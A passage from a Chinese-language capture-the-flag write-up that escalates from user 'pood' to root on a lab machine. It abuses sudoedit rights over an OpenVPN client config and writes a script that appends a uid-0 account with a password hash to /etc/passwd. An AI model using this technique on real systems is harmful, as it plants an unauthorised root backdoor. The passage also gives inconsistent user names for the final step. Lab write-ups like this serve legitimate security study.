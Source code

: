 现在我们得到了 pood 的用户密码, 直接使用 SSH 登陆

### pood —> root

在枚举发现 pood 用户具有编辑 client.ovpn 权限

```bash
pood@pylon:~$ sudo -l
[sudo] password for pood: 
Matching Defaults entries for pood on pylon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pood may run the following commands on pylon:
    (root) sudoedit /opt/openvpn/client.ovpn
```

现在就连接起来了, 使用 pood 用户编辑我们的 ovpn 文件, 再使用 noraj 用户进行执行直接完美提权 [Sudo OpenVPN Privilege Escalation | Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-openvpn-privilege-escalation/) 这里建议获取一个 root Shell 而不是 /bin/bash, 我在这里创建了新的用户

```bash
pood@pylon:/tmp$ cat << EOF > root.sh 
> #!/bin/bash
> echo 'FUCK:\$1\$admin\$eiO19kFjs48pgX5PoJpXm1:0:0::/root:/bin/bash' >> /etc/passwd
> EOF
pood@pylon:/tmp$ chmod 777 root.sh
```

之后只需要使用 lone 用户执行一下命令就可以完成提权了

```bash
lone@pylon:~$ sudo /usr/sbin/openvpn /opt/openvpn/client.ovpn
```

![image-20240709193435367](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-193436.png)